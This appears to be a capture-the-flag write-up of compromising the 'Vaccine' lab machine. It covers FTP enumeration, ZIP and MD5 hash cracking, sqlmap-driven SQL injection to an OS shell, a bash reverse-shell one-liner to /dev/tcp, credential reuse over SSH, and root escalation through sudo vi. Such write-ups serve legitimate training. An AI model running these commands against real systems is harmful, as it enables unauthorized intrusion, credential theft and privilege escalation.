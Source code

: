# Vaccine Machine

## Initial Enumeration

- Ran full port and service/version scan:
  ```bash
  nmap -p- -sV -sC 10.129.95.174
  ```
- Discovered services:
  - 21/tcp - FTP (Anonymous login allowed)
  - 22/tcp - SSH
  - 80/tcp - HTTP

## FTP Access

- Connected to FTP using anonymous login.
  ```bash
  ftp 10.129.95.174
  ```
- Found and downloaded a file:
  ```bash
  get backup.zip
  ```

## Cracking ZIP Password

- Found the zip file is password protected.
- Converted to hash format:
  ```bash
  zip2john backup.zip > backup.hash
  ```
- Cracked using John and rockyou:
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash
  ```
- Got the ZIP password: **[REDACTED]**

## Inspecting ZIP Contents

- Extracted `backup.zip`, found:
  - `index.php`
  - `style.css`

- In `index.php`, found:
  - Username: `admin`
  - Password: **[REDACTED]** (hashed)

## Cracking the Hashed Password

- Checked the hash type using:
  ```bash
  hashid <hash>
  ```
  - Multiple results returned, but assumed **MD5** (32-character hash).

- Cracked using Hashcat:
  ```bash
  hashcat -a 0 -m 0 password.hash /usr/share/wordlists/rockyou.txt
  ```
- Recovered password: **[REDACTED]**

## Logging into the Web App

- Logged into the web app using:
  ```
  http://10.129.95.174
  ```
- Credentials:
  - Username: `admin`
  - Password: **[REDACTED]**

- Found a **search** functionality — possible injection point.

## SQL Injection

- Tested with a single `'` — saw:
  ```
  ERROR: unterminated quoted string at or near "'"
  LINE 1: Select * from cars where name ilike '%'%' ^
  ```
- Indicates **PostgreSQL** and SQL Injection.

- Used SQLMap to confirm:
  ```bash
  sqlmap -u 'http://10.129.95.174/dashboard.php?search=anyquery' --cookie="PHPSESSID=[REDACTED]"
  ```
- Confirmed injection and **DBA rights**.

- Used SQLMap to get OS shell:
  ```bash
  sqlmap -u 'http://10.129.95.174/dashboard.php?search=anyquery' --cookie="PHPSESSID=[REDACTED]" --os-shell
  ```

## Getting a Reverse Shell

1. Opened a listener:
   ```bash
   sudo nc -lvnp 443
   ```

2. Sent command via SQLMap shell:
   ```bash
   bash -c "bash -i >& /dev/tcp/<YOUR_IP>/443 0>&1"
   ```

3. Got reverse shell.

## Privilege Escalation

- Checked `/var/www/html` for credentials.
- Found DB password: **[REDACTED]**

- Logged in via SSH:
  ```bash
  ssh postgres@10.129.95.174
  ```
- Used password found in PHP files.

- Found user flag: **[REDACTED]**

- Checked sudo privileges:
  ```bash
  sudo -l
  ```
  - Output:
    ```
    User postgres may run the following commands on vaccine:
      (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
    ```

## Root Privileges via `vi`

- Ran:
  ```bash
  sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
  ```
- Inside `vi`, used escape and shell:
  ```
  :!bash
  ```

- Got root shell access.
- Retrieved root/system flag: **[REDACTED]**
